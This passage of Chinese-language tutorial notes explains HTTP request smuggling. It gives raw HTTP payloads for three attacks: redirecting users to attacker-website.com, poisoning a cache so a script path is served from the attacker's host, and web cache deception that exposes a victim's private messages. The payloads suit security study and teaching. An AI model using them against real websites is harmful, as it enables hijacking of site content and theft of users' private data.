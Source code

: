     有些服务器会将末尾没有反斜杠的请求重定向到`Host+URL/`。

    ```http
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 54
    Transfer-Encoding: chunked
    
    0
    
    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: X
    ```

    这就会被重定向到`https://attacker-website.com/home/`。

* 污染缓存

    ```http
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 59
    Transfer-Encoding: chunked
    
    0
    
    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: XGET /static/include.js HTTP/1.1
    Host: vulnerable-website.com
    ```

* 网络缓存欺骗

    ```http
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 43
    Transfer-Encoding: chunked
    
    0
    
    GET /private/messages HTTP/1.1
    Foo: X
    ```

    走私之后（这个是在受害者的会话下进行的）：

    ```http
    GET /private/messages HTTP/1.1
    Foo: XGET /static/some-image.png HTTP/1.1
    Host: vulnerable-website.com
    Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
    ...
    ```

    后台服务器以正常的方式响应这个请求。请求中的URL是针对用户的私信，并且该请求是在受害者用户会话的上下文中处理的。前端服务器将此响应与它认为的第二个请求中的URL进行缓存，这个`URL`是`/static/some-image.png`。
